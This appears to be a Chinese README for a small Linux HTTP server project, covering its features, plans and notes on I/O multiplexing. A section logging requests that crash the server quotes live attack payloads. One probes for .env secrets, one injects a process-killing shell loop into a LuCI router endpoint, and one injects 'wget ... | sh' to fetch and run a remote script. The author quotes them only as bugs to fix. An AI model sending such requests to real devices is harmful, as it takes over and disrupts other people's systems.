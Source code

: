 # MyWeb

## 1、开发进度

本项目开发了一个基于Linux平台的轻量级HTTP服务器
* 采用了Reactor高并发模型
* 支持Select、Poll、Epoll三种IO复用方式
* 服务器通过状态机解析HTTP请求报文
* 使用自动增长的缓冲区来提升性能稳定性
* 通过WebBench对服务器进行了性能和压力测试，确保了其稳定性和可靠性。

计划：
* 引入MySQL，实现一个注册登录界面
* 处理POST请求
* 定时器
* 日志系统
* 实现Proactor模型
* 消息队列
* 分布式

奇怪的get请求，接收到以后，服务器就会挂，慢慢解决
* GET /.env HTTP/1.0
* GET /portal/redlion HTTP/1.0
* GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=id%3E%60for+pid+in+%2Fproc%2F%5B0-9%5D%2A%2F%3B+do+pid%3D%24%7Bpid%25%2F%7D%3B+pid%3D%24%7Bpid%23%23%2A%2F%7D%3B+exe_path%3D%24%28ls+-l+%2Fproc%2F%24pid%2Fexe+2%3E%2Fdev%2Fnull+%7C+awk+%27%7Bprint+%24NF%7D%27%29%3B+if+%5B%5B+%24exe_path+%3D%3D+%2A%2F+%5D%5D%3B+then+kill+-9+%24pid%3B+fi%3B+done%3B%60 HTTP/1.0
* GET http://www.ys168.com/?0.301155930654163458905783120 HTTP/1.1
* GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60wget+-O-+http%3A%2F%2F154.216.17.31%2Ft%7Csh%3B%60) HTTP/1.0
* HEAD / HTTP/1.0


## 2、理论基础

(三种IO多路复用技术)[https://github.com/Dream-ming/Learning_Note/blob/main/%E7%BD%91%E7%BB%9C/Socket/IO%E5%A4%9A%E8%B7%AF%E5%A4%8D%E7%94%A8/README.md]

### 同步/异步，阻塞/非阻塞
* 同步
  * 指程序完全按照代码序列的顺序执行
* 异步
  * 指程序的执行需要由系统事件驱动
* 半同步半异步模式 (Reactor)
  * 同步线程用于处理客户逻辑
  * 异步线程用于处理I/O事件
  * 异步线程监听到客户请求后，就将其封装成请求对象并插入请求队列中
  * 请求队列将通知某个工作在同步模式的工作线程来读取并处理该请求对象
* 半同步半反应堆模式 (Proactor)
  * 主线程充当异步线程，负责监听所有 socket 的读写事件
  * 若有新的连接到来，主线程接收，并往 epoll 内核事件表中注册该事件
  * 若有读写事件发生，主线程从 socket 上接收数据，并将其封装成请求对象，插入请求队列当中
  * 所有工作线程睡眠在请求队列上，竞争处理请求队列上的任务

### HTTP 报文格式
